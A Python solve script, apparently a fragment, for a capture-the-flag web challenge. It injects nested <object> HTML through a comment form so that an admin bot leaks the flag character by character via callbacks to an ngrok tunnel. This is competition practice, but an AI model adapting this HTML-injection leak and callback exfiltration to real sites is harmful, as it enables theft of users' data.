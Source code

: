```python
# Start Ngrok tunnel to the Flask app
ngrok_tunnel = ngrok.connect(5000, "tcp")
public_url = ngrok_tunnel.public_url.replace('tcp://', '')
tcp_address, tcp_port = public_url.split(':')
print(f"Ngrok TCP tunnel established at {public_url}")

# CTF challenge
CTF_HOST = 'http://52.148.100.67:30679'
CHALL_PORT = 5577
HEADERS = {
    'Content-Type': 'application/json',
    'Origin': CTF_HOST,
    'Referer': CTF_HOST + '/',
    'Accept-Language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36',
    'Connection': 'close',
}

def submit_comment_and_invoke_bot(char, partial_flag):
    unique_id = str(uuid.uuid4())
    # Using the Ngrok TCP address and port for the callback URL
    callback_url = f"http://{tcp_address}:{tcp_port}/webhook?id={unique_id}&callback={char}"
    payload = {
        "comment": f'<object data="http://127.0.0.1:{CHALL_PORT}/oshaoshaflagfinder?flag={partial_flag}{char}"><object data="{callback_url}"></object></object>',
        "image": "/images/D.png"
    }
    print(payload)
    response = requests.post(f'{CTF_HOST}/comment', json=payload, headers=HEADERS)

    if response.status_code == 200 and 'hash' in response.json():
        url_to_visit = f"{CTF_HOST}/comment?hash={response.json().get('hash')}"
        print(url_to_visit)
        bot_response = requests.post(f'{CTF_HOST}/osha-see', json={"url": url_to_visit}, headers=HEADERS)
        if bot_response.status_code == 200:
            return unique_id
    return None

def check_callback_received(unique_id):
    # Check if a callback for the unique_id was received
    return unique_id not in callbacks

def main():
    partial_flag = "SH"
    characters = string.ascii_uppercase + "_}!"

    while not partial_flag.endswith("}"):
        for char in characters:
            print(f"Testing '{char}' for partial flag: {partial_flag}")
            unique_id = submit_comment_and_invoke_bot(char, partial_flag)
            if unique_id and check_callback_received(unique_id):
                partial_flag += char
                print(f"Updated partial flag: {partial_flag}")
                break

    print(f"Final flag found: {partial_flag}")

if __name__ == "__main__":
    main()
```
